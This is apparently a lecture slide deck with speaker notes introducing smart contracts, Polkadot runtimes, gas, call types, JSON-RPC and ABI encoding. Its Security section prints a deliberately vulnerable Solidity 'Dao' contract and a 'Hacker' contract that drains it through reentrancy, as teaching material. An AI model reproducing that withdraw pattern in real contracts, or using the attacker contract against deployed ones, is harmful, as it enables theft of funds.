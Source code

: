 ```yaml
---
title: Smart contracts fundamentals
description: Introduction to fundamentals smart conctracts concepts
duration: 30min
url: http://localhost:1948/syllabus/3-PVM-Polkadot-Architecture-and-Smart-Contracts/2-Smart-Contracts-101-slides.md
---
```


## Smart contracts fundamentals

Notes:
The goal of the lecture is to define the basic definition of what a SC is
and explain the advantage and trade off of a smart contract chain

---

## Why

Notes:
- Always start with the why!
- 2 things to answers here:
  - One, The benefits of smart contracts as a technology: Smart Contracts are a huge improvement over traditional legal contracts, that are slow, expensive, and error-prone.
  With smart contracts, you can automate the execution of agreements, enforce them automatically, and remove the need for intermediaries. E.g crop insurance.
  - Two, For the Polkadot ecosystem, it's important to embrace a technology that is widely adopted by the Ethereum
    community, so that we can leverage the tooling, and easily onramp existing dapps, but also users and developers.

---

## Smart contracts & blockchain

<img style="width: 90%"  src="img/smart-contracts-101/stf.png" />

Notes:

Before defining what a smart contract (SC) is, we need to understand the environment in which it operates: the blockchain.
We won’t dive deep into what a blockchain is—that will be covered in detail during the PBA. For now, it's enough to define a blockchain as:
A distributed system where all participants (nodes) execute a common set of transactions contained in a block.
These transactions are processed using a state transition function, which updates the blockchain’s state from block n to block n+1.
The state transition function is defined by the protocol itself. Additionally, consensus mechanisms determine who gets to author the next block.

Since all nodes execute the same transactions with the same rules, they all derive the same resulting state. This ensures that block n+1 is identical across all honest nodes in the network.

---v

### Bitcoin

<img style="width: 90%"  src="img/smart-contracts-101/stf-btc.png" />

Notes:

In Bitcoin, the state transition function primarily processes transactions, which are mostly transfer transactions.
Accounts submit transactions, transactions are gossiped over the network, and will eventually be included in a block.
The state transition function, will validate the transactions, and update the state of the ledger with these instructions ed ledger by moving ownership of coins from one address to

---v

### Polkadot

<img style="width: 90%"  src="img/smart-contracts-101/stf-dot.png" />

Notes:

Unlike Bitcoin, Polkadot's state transition function is highly flexible and programmable.
Blockchains built with Substrate run a WebAssembly (Wasm) runtime, which defines how the blockchain's state is updated.
This runtime is built using Rust modules, called pallets, each defining specific transaction types.
Because this state transition function is written in a Turing-complete language like Rust, it can execute complex logic beyond simple transfers.

Different pallets allow developers to introduce specialized logic into their blockchain:
Assets & NFT pallets → Define fungible and non-fungible tokens and their operations.
Democracy pallet → Enables on-chain governance, allowing proposals to be submitted, voted on, and enacted when approved.
Other pallets can introduce staking mechanisms, cross-chain messaging, DAOs, and more.

Another key feature of Polkadot is runtime upgrades. The runtime logic can be updated without requiring a hard fork.
A runtime upgrade is simply another transaction that updates the Wasm blob stored on-chain. Once this upgrade is applied, subsequent blocks execute the new logic.

Not just anyone can execute a runtime upgrade though, these transactions require root privileges, which are only granted through governance approval via OpenGov voting.

So to recap:
Polkadot's state transition function can execute any business logic defined in the runtime.
However, the runtime itself is not permissionless—it must be explicitly defined and deployed by the chain’s developers or governance
To allow arbitrary logic execution, a Smart Contracts module must be embedded in the runtime.
Otherwise, only predefined transaction types (e.g., assets, governance, staking) can be executed.

---

### Smart contracts chain

<img style="width: 90%"  src="img/smart-contracts-101/stf-evm.png" />

Notes:

Now, we can finally define what a smart contract is.
A smart contract is a special type of account that is not controlled by a keypair, but instead by the code it defines.
A smart contract blockchain allows users to:
        - Deploy contracts on-chain.
- Call these contracts to execute their logic.

You can think of smart contracts as dormant programs stored on the blockchain at a specific address.
These programs remain inactive until they are triggered by a transaction.

So you can think of a contract as "code on chain". One important aspect of smart contracts is that they are immutable. The code that defines a contract cannot be changed once it is deployed. This ensures that the contract’s behavior remains predictable and that users can trust the contract to execute

Smart contracts are executed when:
- A regular account submits a call transaction to interact with them.
- Because smart contracts are highly composable, they can also interact with each other to execute complex workflows. This means that in addition to being called by regular accounts, they can also be triggered by other smart contracts, enabling powerful on-chain interoperability.

For example, the USDC smart contract, is an ERC-20 token that maintains a mapping of balances, associating each user’s address with the amount of USDC they hold.
When a user transfers USDC, the contract updates the sender’s balance by subtracting the amount, adds the same amount to the recipient’s balance, and stores the new state on-chain to ensure all nodes remain synchronized

---

## Bytecode & Virtual Machines


<img style="width: 100%; filter: invert(1);" src="img/smart-contracts-101/bytecode-vm.svg" />

Notes:

When we deploy a smart contract on-chain, we first compile it into bytecode, which can be executed by a virtual machine.
Different smart contract blockchains use different bytecode formats.
For example:
- On Ethereum contracts are compiled into EVM bytecode.
- On Solana, programs are compiled into BPF bytecode.
- On Polkadot Hub as we will explore later, we use PolkaVM bytecode

The state transition function of the blockchain runs the Virtual Machine to execute the instructions in this compiled bytecode, and update the state of the chain.

---

## Core Features of Smart Contracts


---v

### A simple Example

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract PiggyBank {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function deposit() public payable {}

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }

    function withdraw(uint256 withdrawAmount) public {
        require(msg.sender == owner, "You are not the owner");
        require(address(this).balance >= withdrawAmount, "Insufficient balance");

        (bool success, ) = payable(msg.sender).call{value: withdrawAmount}("");
        require(success, "Transfer failed");
    }
}
```

Notes:
Developers don’t typically write bytecode by hand. Instead, they write smart contracts in high-level languages, which are then compiled into bytecode. On EVM-compatible chains, the most widely used language is Solidity, that is compiled to bytecode using the `solc` compiler. Let's go through a simple `PiggyBank` solidity contract to illustrate it.

- When a contract is deployed, the constructor code is executed
- The owner can call the deposit function to deposit some balance
- The view function `GetBalance` is a 'readonly' function that can be queried through a JSON-RPC call
- If you send ETH directly to the contract (without calling a function like deposit), it will fail unless the contract has a receive or fallback function.
Without one of these, any direct transfer (e.g., sendTransaction from a wallet) will be rejected with an error.

---v

### Immutability

<img rounded style="width: 500px"  src="img/smart-contracts-101/Immutability.jpg" />

Notes:
Contracts are immutable by design, however in some circumstances, you might want to upgrade to fix a bug or add or
improve existing features. There are several patterns to achieve this, one of the most common is the Proxy pattern.
Essentially, the proxy pattern involves creating a proxy contract that delegates calls to an implementation contract.
When you want to upgrade the contract, you deploy a new implementation contract and update the proxy to point to the new implementation.

---v

#### Smart Contract Upgrade

- **Upgradability**: Immutable, unless using proxies
  - Governance Model: Typically managed by a contract owner or DAO governance

- **Process**:
  - Deploy a new contract implementation
  - Update the proxy contract to point to the new version
  - State Migration if needed

- **Overhead**:
  - Gas overhead due to delegate calls and proxy interactions
  - Gas costs for state migration & new contract deployment

---v

#### Substrate Runtime Upgrade (Polkadot)

- **Upgradability**: Achieved through a Wasm runtime upgrade

- **Governance Model**: On-chain governance (OpenGov)

- **Process**:
  - Proposal submitted through OpenGov
  - Once approved, a runtime upgrade transaction is dispatched, and state is migrated as part of the upgrade

- **Overhead**:
  - Gas Costs: No gas cost (upgrade happens at the protocol level)
  - No performance overhead (new runtime code replaces the old one)

---

### Composability

<img rounded style="width: 500px"  src="img/smart-contracts-101/composability.jpg" />

Notes:
Smart contracts on EVM-based chains are highly composable, meaning they can interact with each other to execute complex workflows. A contract call is always initiated by an Externally Owned Account (EOA) through a transaction.

---v

### Call types

- Normal Call: Contract A calls Contract B
- Static Call: Contract A reads data from Contract B
- Delegate Call: Contract A executes Contract B in its execution context

Notes:
Methods for contract interaction include:

- **Normal Call**:
  - Contract A calls Contract B.
  - Contract B is pushed to the call stack, executes, potentially updates its state, and may call other contracts.
  - Contract B returns control to Contract A along with the result and status (reverted or successful).
  An example for this would be a contract that calls another contract to transfer tokens.

- **Static Call**:
  - Contract A calls Contract B.
  - Contract B executes but cannot make state changes.
  An example for this would be a contract that reads data from another contract, e.g a price feed.

- **Delegate Call**:
  - Contract A calls Contract B in its execution context.
  - Contract B can read and write to A's storage, akin to a library executing within A.
  An example for this would be to use a Math library to perform calculations.

A good mental model is to think of smart contracts as the API layer of web3. Your contract can tap into other contracts
to access their functionality, read and write data and execute complex workflows. A good example of that are flash loans
on the Aave protocol, where a contract can borrow funds from the protocol, execute a series of transactions and repay
the loan in the same transaction.

---

### Call types


<img style="height: 90%"  src="img/smart-contracts-101/call-stack-1.png" />

---v

### Call types


<img style="height: 90%"  src="img/smart-contracts-101/call-stack-2.png" />

---v

### Call types


<img style="height: 90%"  src="img/smart-contracts-101/call-stack-3.png" />

---v

### Precompiled Contracts

<img rounded style="width: 500px"  src="img/smart-contracts-101/precompiles.jpg" />

Notes:

Another important feature of smart contracts is the ability to interact with precompiled contracts.
A precompile contract is a contract whose code is defined in the client software directly.
On Ethereum, that has a slow VM, it's used to perform computation intensive operations like elliptic curve cryptography,
outside the EVM, to improve performance.
In Substrate, a Smart-Contract pallet, can leverage this to expose other features of the runtime (like staking, xcm, governance, assets) to smart contracts


---

### Gas

<img rounded style="width: 500px"  src="img/smart-contracts-101/gas.jpg" />

Notes:

You might be wondering—if a smart contract can execute any arbitrary logic, what prevents it from defining an infinite loop that could stall the entire blockchain?
To prevent this and to protect the network from spam, virtual machines are metered. Every instruction executed by the VM has an associated gas cost, which represents the computational resources required to process it.

When you submit a transaction or when a contract calls another contract, you must specify the maximum amount of gas you’re willing to pay for execution. The contract’s code will either:
- Run to completion if there is enough gas.
- Run out of gas and revert, undoing any changes made to the contract storage, but you will still pay for the gas that was consumed before the failure.


Additionally, the blockchain itself imposes limits on gas usage:
It defines a block gas limit, which sets the maximum amount of gas that can be used across all transactions in a single block.
It also defines a gas price, which determines how much fees will be paid for a given amount of gas.
blockchains usually adjust gas prices dynamically based on network demand, ensuring fees reflect current congestion levels
This system ensures that no contract can consume unlimited resources, execution remains bounded, and transaction fees dynamically adjust based on network demand.

---v

```solidity
    while (true) {
        // ...
        // This loop will consume all gas and revert
    }
}
```
---v

#### Metered calls in EVM

<img style="width: 1200px" src="./img/frontier/GasometerDiagram.png" />

Notes:

- Checks before each opcode to make sure gas can be paid
- Safe: prevents unpaid work from being done
- Deterministic: results are unambiguous
- Very inefficient: lots of branching and extra work

---v

#### Weighted calls in substrate

```rust
#[pallet::weight(T::WeightInfo::set_metadata(name.len() as u32, symbol.len() as u32))]
pub fn set_metadata(
    origin: OriginFor<T>,
    id: T::AssetIdParameter,
    name: Vec<u8>,
    symbol: Vec<u8>,
    decimals: u8,
) -> DispatchResult {
    let origin = ensure_signed(origin)?;
    let id: T::AssetId = id.into();
    Self::do_set_metadata(id, &origin, name, symbol, decimals)
}
```

Notes:
In Substrate, each call defines a pre-dispatch weight, which can depend on the input parameters. Accounts must pay the estimated execution fee upfront, and any excess is refunded after execution.

---v

#### Metered VM Execution vs. Weighted Calls in Substrate

| Feature                | EVM Chains                         | Substrate Chains                         |
|------------------------|------------------------------------|------------------------------------------|
| **Execution Model**    | Metered at runtime (Gas)           | Pre-weighted calls                       |
| **Cost Calculation**   | Dynamic, based on execution        | Static, determined pre-dispatch          |
| **Performance**        | Runtime overhead                   | More predictable, optimized execution    |
| **Flexibility**        | Supports arbitrary computation     | Requires (benchmnarked) weights per call |

Notes:

In VM-based blockchains, execution is metered using gas.
This makes execution flexible but introduces runtime overhead due to dynamic metering.

Contract execution performance is **less predictable**, as total costs depend on actual execution flow.
Wallet usually need to dry-run the execution to define how much gas is required for the execution.

In Substrate-based chains, execution is handled differently
- Instead of metering each instruction at runtime, calls have predefined weights based on computational complexity.
- This approach enables more efficient execution compared to metered VM, as the chain doesn’t need to meter each instruction dynamically, reducing runtime overhead.

---

## Security

<img rounded style="width: 500px"  src="img/smart-contracts-101/security.jpg" />

Notes:

Permissionless Deployment is Risky

Anyone can deploy a smart contract, but if "code is law," any bug or vulnerability can be exploited.
Attackers actively search for vulnerabilities in deployed contracts.
Even small logic errors or gas inefficiencies can be exploited for financial gain.

- Security audits are essential before deploying contracts that manage funds.
- Use battle-tested smart contract libraries (e.g., OpenZeppelin).
- Follow established design patterns to avoid common vulnerabilities (e.g., reentrancy).
- Implement proper access control to prevent unauthorized actions.

---v

### The famous reentrency DAO hack

```solidity
contract Dao {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        require(msg.value >= 1 ether, "Deposits must be no less than 1 Ether");
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No balance to withdraw");

        // 🔴 Sends ETH before updating balance
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");

        // 🔴 Balance Update after Transfer - Allows Reentrancy!
        balances[msg.sender] = 0;
    }
}

interface IDao {
    function withdraw() external ;
    function deposit()external  payable;
 }

contract Hacker{
    IDao dao;

    constructor(address _dao){
        dao = IDao(_dao);
    }

    function attack() public payable {
        require(msg.value >= 1 ether, "Need at least 1 ether to commence attack.");
        dao.deposit{value: msg.value}();
        dao.withdraw();
    }

    fallback() external payable{
        if(address(dao).balance >= 1 ether){
            dao.withdraw();
        }
    }
}
```
Note:
see https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/

---

## JSON-RPC

- JSON-RPC is a **remote procedure call (RPC) protocol** using JSON for encoding requests and responses.
- It allows **external applications, wallets, and scripts** to interact with blockchain nodes.
- Most chains expose a **JSON-RPC API** for querying blockchain data and sending transactions.

---v

### Common Ethereum JSON-RPC Methods

| Method                      | Description                                     |
|-----------------------------|-------------------------------------------------|
| `eth_call`                  | Executes a read-only contract call.             |
| `eth_estimateGas`           | Estimates the gas required for a transaction.   |
| `eth_sendRawTransaction`    | Sends a raw, signed transaction to the network. |
| `eth_getTransactionReceipt` | Retrieves transaction execution details.        |

Note:

- There are two types of transactions in Ethereum: read-only and state-changing transactions.
When you want to read data from a contract, you use `eth_call` to execute a read-only contract call.

- When you want to send a transaction to the network, you will usually follow this flow:
- Estimate the gas required for the transaction using `eth_estimateGas`.
- Sign and submit the transaction using `eth_sendRawTransaction`.
- Finally, you can poll `eth_getTransactionReceipt` with the transaction hash to retrieve the transaction execution details.

The receipt is an important object, used by wallet and JS libraries, it will contain
- The transaction status
- Gas used, and logs generated during execution.

---v

### Common Substrate JSON-RPC Methods

| Method                      | Description                              |
|-----------------------------|------------------------------------------|
| `author_submitExtrinsic`    | Submits a signed transaction             |
| `state_call`                | Calls a runtime API exposed by a pallet. |

---v

### Example sending a raw transaction

```json
curl https://westend-asset-hub-eth-rpc.polkadot.io \
-H 'content-type: application/json' \
-d '{
  "method":"eth_sendRawTransaction",
  "params" ["0x02f8b3018313c1..."],
  "id":2
  ,"jsonrpc":"2.0"
}'
```

---v

## Structure of a Transaction

```sh
# https://etherscan.io/getRawTx?tx=0xcd58fbee0f90c4b7136a5af85876090dd1593e4580f840bcf0a7b9219772a5d4
> cast decode-tx 0x02f8b3018313c17...
{
  "type": "0x2",
  "chainId": "0x1",
  "nonce": "0x13c174",
  "gas": "0x249f0",
  "maxFeePerGas": "0x746a528800",
  "maxPriorityFeePerGas": "0x878415",
  "to": "0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48",
  "value": "0x0",
  "input": "0x..."
  "r": "0xc330502a046982553df56842433dfb1f318c980724bfd30be53e6461cea620ac",
  "s": "0x25217d80ae9538009b3b24ab83fdac6df67982b433f74488d2c14fee41ca2d79",
  "yParity": "0x0",
  "v": "0x0",
}
```

Notes:
A few things to note in the transaction:
- First of all the transaction is encoded using RLP (Recursive Length Prefix) encoding, the first byte is the type of the
  transaction, and defines the format of the transaction, that can be decoded using rlp-decode.
- The type here is 0x2, which means it is an EIP-1559 transaction, new fork can sometimes introduce new transaction type
  to define new transaction format, this type field is used to distinguish between them.
- The chainId defines the network on which the transaction is being sent, this makes sure that the transaction is not replayed on another network.
- The nonce is a very important component of the transaction, it is used to prevent replay attacks, it is incremented for each transaction sent by an account, your transaction will only be executed if the nonce is the next in line.
- gas, maxFeePerGas, maxPriorityFeePerGas are used to define the cost and fees generated for the transaction.
- value is the amount of ether being sent in the transaction.
- input is the ABI encoded data of the function being called, in this case, it is the transfer function of an ERC20 token, we will see how to decode this later.
- r, s, v are the signature of the transaction, used to verify the transaction was signed by the sender.

You will notice that the transaction does not have a 'from' field, this is because the origin can be recovered from the signature.


---v

### ABI decoding

```sh
INPUT="0xa9059cbb000000000000000000000000ba04f1c1e4577165dd2297d3fbedf956b0e4c8a70000000000000000000000000000000000000000000000000000000004cc7c30"

# Get the first 4 bytes (8 characters after '0x')
FIRST_4_BYTES="0x${INPUT:2:8}"

# Get the function signature using https://openchain.xyz/signatures
cast 4byte $FIRST_4_BYTES
transfer(address,uint256)

# Decode the input data using the function signature
ALL_BUT_FIRST_4_BYTES=${INPUT:10}

cast abi-decode -i "transfer(address,uint256)" $ALL_BUT_FIRST_4_BYTES
0xBA04f1c1E4577165dD2297D3FbEdF956B0e4C8a7 80510000
```

Notes:
Now that we have decoded the transaction, we can try to decode the input data
- the first 4 bytes of the input data are the function signature, which is used to identify the function being called, in this case, it is the transfer function of an ERC20 token.
- The rest of the input data is the parameters of the function, using the transfer function signature we can decode the input data to get the address and the amount being sent.


---v

### Encoding ABI parameters

```sh
cast calldata \
"test((bool, string, address))" \
"(true, hello, 0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48)" \
| xxd -r -p | xxd -c 32
```

```hexdump
00000000: f8f3 4990 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000  ..I.............................
00000020: 0000 0020 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000  ... ............................
00000040: 0000 0001 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000  ................................
00000060: 0000 0060 0000 0000 0000 0000 0000 0000 a0b8 6991 c621 8b36 c1d1 9d4a 2e9e b0ce  ...`..............i..!.6...J....
00000080: 3606 eb48 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000  6..H............................
000000a0: 0000 0005 6865 6c6c 6f00 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000  ....hello.......................
000000c0: 0000 0000
```

---v

### Encoding ABI parameters

```sh
cast abi-encode \
"test((bool, string, address))" \
"(true, hello, 0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48)" \
| xxd -r -p | xxd -c 32
```

```hexdump
00000000: 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0020  ...............................
00000020: 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0001  ................................
00000040: 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0060  ...............................`
00000060: 0000 0000 0000 0000 0000 0000 a0b8 6991 c621 8b36 c1d1 9d4a 2e9e b0ce 3606 eb48  ..............i..!.6...J....6..H
00000080: 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0005  ................................
000000a0: 6865 6c6c 6f00 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000  hello...........................
```

Notes:
We’ve covered decoding ABI-encoded data—now let’s look at the opposite process: encoding function call parameters.
Using the function's ABI signature, we can encode the parameters using cast abi-encode.
A few remarks:
- We are encoding a tuple containing a boolean, a string, and an address.
- Since a tuple is dynamic, the first 32 bytes store an offset to where the actual data starts—here, 0x20.
- The first tuple element (boolean) is at offset 0x20. Even though a bool is just 1 byte, like everything in the EVM, it is padded to 32 bytes.
- The string is another dynamic type, so instead of being stored inline, its offset (0x60) is stored at 0x40.
- The address is a fixed-size type, so it’s stored inline immediately after the offsets.
- At offset 0x60, we find the length of the string, and right after that, the string content itself.

---

## Smart Contract Ecosystem

---v

### Block Explorers
  * Track transactions and smart contract states
  * Enable transparency & debugging tools for developers
  * Examples: Etherscan, Subscan, Blockscout

---v

### Oracles – External Data Integration
  * Enable hybrid on-chain/off-chain contracts
  * Examples: Chainlink, Redstone
  * Deliver real-world data on-chain for smart contracts (e.g., price feeds, weather, events)
  * Two models
     - Push: Data is pushed by node operators at specific interval and made available to contracts
     - Pull: Signed data package is attached to the transaction and verified by a contract on chain

---v

### Indexers
 - Blockchain are write optimized, and querying data can be slow
 - Indexers subscribe to the blockchain and store the data in a more queryable format
 * Allow fast and structured access to blockchain records
 * Improve UX for dApps by reducing raw node queries
 * Examples: The Graph, Subsquid

---

